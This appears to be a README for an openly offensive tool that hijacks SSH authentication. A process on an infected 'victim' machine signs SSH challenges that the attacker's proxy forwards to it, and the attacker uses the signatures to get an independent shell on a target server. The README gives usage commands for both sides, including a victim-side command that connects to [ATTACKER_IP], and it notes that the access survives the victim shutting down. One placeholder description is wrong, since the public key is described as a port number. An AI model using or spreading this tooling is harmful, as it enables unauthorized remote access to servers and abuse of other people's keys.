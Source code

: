 This reporsitory provides scripts for forwarding ssh authenication challenges to an infected system and using the responding signature for an independent ssh session on another device.


# Dependencies 
```
pip3 install -r requirements.txt 
```

# Usage
On the victim system: 
Get the public key as hex 
```
show_keys.py 
```

 
On the attacking system: 
```
python attacker.py -o [OWN_IP] -t [TARGET] -u [USER] -p [PORT] --pub [PUBLIC_KEY]
```

Replace the following placeholders with the appropriate values:
- [OWN_IP]: Your own IP address where the proxy will listen for incoming connections.
- [TARGET]: The hostname or IP address of the target SSH server.
- [USER]: The username to authenticate on the target SSH server.
- [PORT]: The port number of the target SSH server.
- [PUBLIC_KEY]: The port number of the target SSH server.



On the victim system: 
```
python3 victim.py --ip [ATTACKER_IP]
```

The attacking system will wait for incoming connections. As soon as a victim connects to the proxy it will start an ssh connection towards the target and forwards the authentication challenge to the connected victim. 
The victim will sign the challenge and send the signature back to the attacker. The attacker authenticates and has got an independent shell even if the victim turns off the computer. 





